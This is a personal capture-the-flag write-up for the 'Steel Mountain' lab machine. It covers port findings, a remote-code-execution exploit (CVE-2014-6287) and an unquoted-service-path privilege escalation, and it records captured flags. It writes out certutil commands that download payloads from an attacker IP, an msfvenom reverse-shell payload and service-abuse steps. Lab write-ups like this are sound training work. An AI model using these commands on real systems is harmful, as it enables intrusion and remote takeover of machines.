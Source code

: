 ```
Steel Mountain - 10.10.67.106
```

#Ports Open - 80,135,139,445,3389,8080

#Detail of Ports
>80
>135
>139
>445
>3389
>8080

#Findings + Exploitation
>server on port 8080 is vuln to rce

##Metsploit Version
>couldnt get it working using metasploit but imp things i found in writeups
>PowerUp script

##Non-Metasploit Version
>searching for the exploit for the server we found
>found a cve 2014-6287
>acc to the instructions, started a server w 'nc.exe' file available
>started a nc listener
>changed ip and port
>exploit worked and got 'user.txt'
	b04763b6fcf51fcd7c13abc7db4fd365

##Priv Esc.
>tried systeminfo to get information about the system
>found it as x64 bit system
>used x64 bit winpeas
>sent to target using certutil
	certutil.exe -urlcache -split -f http://10.17.4.195/winpeas.exe
>ran winpeas using
	cmd /c 'winpeas cmd fast'
						OR
	winpeas.exe
>found AdvancedSystemCareServices9 runnning
>found a exploit for it
	IObit Advanced SystemCare 10.0.2 - Unquoted Service Path Privilege Escalation
>acc to the exploit, stop the service first
	sc stop AdvancedSystemCareService9
>then make a payload Advanced.exe with msfvenom
	msfvenom -p windows/shell_reverse_tcp LHOST=10.17.4.195 LPORT=4444 -f exe -o Advanced.exe
>change the directory to the location of the previous exe
	cd C:\Program Files (x86)\IObit
>now send it using the same certutil method
	certutil.exe -urlcache -split -f http://10.17.4.195/Advanced.exe
>once ready, start the service again after setting up a listener
	sc start AdvancedSystemCareService9
>and got a shell back
>we are ROOT!!!
	9af5f314f57607c00fd09803a587db80